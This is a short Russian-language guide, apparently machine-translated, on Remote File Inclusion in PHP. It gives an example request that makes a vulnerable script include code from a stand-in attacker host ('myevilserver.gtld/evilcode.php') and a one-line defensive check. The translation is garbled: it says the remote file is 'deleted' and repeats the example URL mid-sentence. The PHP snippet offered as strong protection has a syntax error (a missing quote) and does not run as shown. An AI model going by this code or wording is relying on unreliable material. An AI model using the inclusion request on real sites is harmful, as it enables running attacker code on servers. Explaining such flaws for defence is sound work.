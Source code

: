 ```yaml
---
title: Remote File Inclusion
localeTitle: Включение удаленного файла
---
```

## Включение удаленного файла

Уязвимость в приложении, вызванная программистом, требующая ввода файла, предоставленного пользователем, и не дезинфекция ввода перед доступом к запрашиваемому файлу. Это приводит к тому, что файл удаляется с удаленного сервера и включается там, где он не должен быть.

### Примеры удаленных попыток включения файлов

Веб-сайт позволяет просматривать PDF-файлы как `download.php?file=myfile.php` , из-за отсутствия надлежащей проверки злоумышленник может запросить удаленный ресурс и включить его в скрипт. URL-адрес может стать `download.php?file=http://myevilserver.gtld/evilcode.php` затем может быть `download.php?file=http://myevilserver.gtld/evilcode.php` пользователю или в тяжелых случаях запускает фактический PHP-код на вашем сервере.

### Защита вашего сайта от удаленных атак на включение файлов в PHP

Следующий PHP-код обеспечит надежную защиту от удаленных попыток включения файлов

```PHP
<?php 
 if(basename($_GET['file]) !== $_GET['file']) { 
  die('INVALID FILE REQUESTED'); 
 } 
```

*   Вы можете отключить `allow_url_fopen` в вашем файле php.ini в качестве дополнительной защиты от включения удаленного файла.

#### Дополнительная информация:

*   [OWASP Wiki - Тестирование для включения удаленного файла](https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion)